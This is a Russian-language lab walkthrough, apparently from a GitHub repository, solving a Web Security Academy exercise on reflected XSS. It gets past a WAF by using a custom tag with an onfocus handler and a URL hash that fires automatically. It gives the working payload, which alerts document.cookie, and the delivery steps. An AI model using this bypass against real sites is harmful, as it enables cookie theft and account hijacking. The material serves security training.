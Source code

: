 ## 🧪 Лабораторная работа: Создание пользовательского XSS-тега для обхода WAF

Эта лабораторная работа демонстрирует, как создать XSS-атаку с использованием пользовательского тега, которая обходит брандмауэр веб-приложений (WAF) и вызывает выполнение полезной нагрузки.

> **Примечание:** Решение не должно требовать взаимодействия с пользователем. Полезная нагрузка должна срабатывать автоматически при загрузке страницы.

---

### Шаги:

1. Перейдите на сервер эксплойтов и вставьте следующий код, заменив `YOUR-LAB-ID` идентификатором вашей лаборатории:

    ```html
    <script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
    ```

    ![image](https://github.com/user-attachments/assets/008ac350-3bfb-45b3-98ff-71d8fa93c86a)

2. Нажмите **Store** (Сохранить) и затем **Deliver exploit to victim** (Доставить эксплойт жертве).

Эта инъекция создает пользовательский тег с ID `x`, который содержит обработчик события `onfocus`, вызывающий функцию `alert()`. Хэш в конце URL автоматически фокусируется на этом элементе при загрузке страницы, что приводит к выполнению полезной нагрузки.
